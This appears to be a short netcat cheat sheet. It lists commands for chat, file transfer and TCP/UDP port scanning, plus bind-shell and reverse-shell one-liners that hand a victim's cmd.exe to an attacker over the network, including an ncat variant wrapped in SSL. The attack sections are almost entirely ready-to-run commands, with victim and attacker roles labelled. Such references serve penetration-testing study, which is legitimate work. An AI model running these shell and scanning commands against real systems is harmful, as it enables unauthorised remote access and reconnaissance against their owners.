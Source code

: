 `nc -nv <ip> <port>`

# Simple Chat

`nc -nlvp 4444`
`nc -nv <ip> 4444`

# File Transfer

`nc -nlvp 4444 > file.exe`
`nc -nv <ip> 4444 < file.exe`

# Bind Shell

### Victim (server)
`nc -lvp 4444 -e cmd.exe`

### Attacker (client)
`nc -nv <IP Address> 4444`

# Reverse Shell

### Attacker (server)
`nc -lvp 4444`

### Victim (client)
`nc -nv <IP Address> 4444 -e cmd.exe`

# NCAT for increased security (SSL/TLS)

### Victim (server)
`ncat -lvp 4444 -e cmd.exe --allow 192.168.30.5 --ssl`

### Attacker (client)
`ncat -nv <IP Address> 4444 --ssl`

# Port Scanning

### TCP Connect Port Scan

`nc -nvv -w 1 -z <ip> 1-65550`

### UDP Scan

`nc -unvv -w 1 -z <ip> 1-65550`
